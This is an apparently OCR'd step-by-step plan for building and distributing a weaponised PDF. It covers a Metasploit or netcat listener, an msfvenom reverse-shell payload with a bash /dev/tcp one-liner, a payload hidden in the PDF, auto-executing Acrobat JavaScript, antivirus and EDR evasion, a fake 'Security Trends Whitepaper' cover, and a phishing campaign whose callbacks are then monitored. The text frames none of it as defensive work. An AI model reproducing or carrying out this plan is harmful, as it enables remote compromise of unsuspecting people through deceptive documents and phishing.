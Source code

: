 
## Phase 1: Environment & Listener Setup
1. **Set up attacker listener**  
   - Choose listener tool: Metasploit `multi/handler` or `nc -lvp`  
   - Confirm LHOST (local IP) and LPORT values  
   - Test basic connect: run a simple `bash -i >& /dev/tcp/LHOST/LPORT 0>&1` payload from a Linux test VM  
2. **Prepare build machine**  
   - Install msfvenom and required toolchain (`gcc`, `strip`, `upx`)  
   - Ensure you have PDF toolkit (`pdftk`, `pdfcpu`) and a JS‑enabled PDF viewer (Acrobat Reader)

---

## Phase 2: Reverse‑Shell Payload Crafting
1. **Choose payload type**  
   - Windows: `windows/meterpreter/reverse_tcp`  
   - Linux: raw `cmd/unix/reverse_bash` or `linux/x86/meterpreter/reverse_tcp`  
2. **Build minimal stager**  
   - Generate with `msfvenom -p cmd/unix/reverse_bash LHOST=… LPORT=… -f raw > stager.sh`  
   - Strip unnecessary bytes, verify size ~150 B  
3. **Build full payload (optional)**  
   - If >500 B acceptable, generate ELF/PE with built‑in Meterpreter  
   - Test execution locally, confirm callback  

---

## Phase 3: Steganographic Embedding into PDF
1. **Select carrier PDF**  
   - Find innocuous-looking slides or e‑book (~few MB)  
2. **Embed raw payload**  
   - Option A: Insert as an image stream metadata (LSB‑stego)  
   - Option B: Add as a hidden file attachment (`pdftk attach_files …`)  
3. **Verify integrity**  
   - Open in Acrobat: ensure no visible corruption  
   - Extract via `pdfcpu` or `pdftk unpack_files` to confirm payload bits  

---

## Phase 4: PDF‑Embedded JavaScript
1. **Learn Acrobat‑JS APIs**  
   - `util.readFileIntoStream`, `util.writeFile`, `this.exportDataObject`  
   - `app.launchURL` vs. `this.saveAs` limitations  
2. **Draft extraction script**  
   - JS code to read embedded object → write to disk (e.g., `%TEMP%/stager.sh` or `\\AppData\\Local\\temp\\stager.bat`)  
   - Set `nLaunch: 2` to auto‑execute if possible  
3. **Integrate into PDF**  
   - Using `pdfcpu` or `qpdf` insert your JS into the `/Names/JavaScript` entry  
   - Mark script to run on `WillClose` or `DocOpen`  

---

## Phase 5: Testing & Hardening
1. **Functional tests**  
   - Open PDF in Acrobat Reader on Windows: confirm the file is dropped and auto‑runs  
   - Test in Linux viewers (Evince, Okular): document behavior  
2. **AV/EDR evasion**  
   - Run through VirusTotal: note any detections  
   - Obfuscate payload bytes (e.g., XOR with JS decoder)  
   - Re‑embed and retest  
3. **Sandbox resilience**  
   - Test on a VM without admin rights  
   - Check UAC prompts on Windows for batch/PowerShell exec  

---

## Phase 6: Social‑Engineering Packaging
1. **Design cover content**  
   - Create a convincing title page (“2025 Security Trends Whitepaper”)  
   - Add benign text/images to mask the stego payload  
2. **Instruction prompt**  
   - Write a note: “Enable reading mode to view embedded charts” (to coax JS acceptance)  
   - Minimal user clicks required  
3. **Finalize deliverable**  
   - Flatten PDF (retain JS)  
   - Host on a web‑accessible link or package in a ZIP with README  

---

## Phase 7: Deployment & Monitoring
1. **Host payload**  
   - Serve from an HTTP server if two‑stage stager is used  
2. **Distribute to targets**  
   - Phishing email campaign with tracking links  
   - Brief user documentation (“See attached report”)  
3. **Monitor callbacks**  
   - In Metasploit: view active sessions  
   - Log connection metadata for each reverse shell  

---

## Phase 8: Documentation & Iteration
1. **Write up methodology**  
   - Document every command, JS snippet, PDF mod step  
2. **Capture lessons learned**  
   - Note viewer quirks, AV flags, user‑interaction hurdles  
3. **Plan improvements**  
   - Add encryption to payload blobs  
   - Explore fallback transports (DNS/tunneling)  

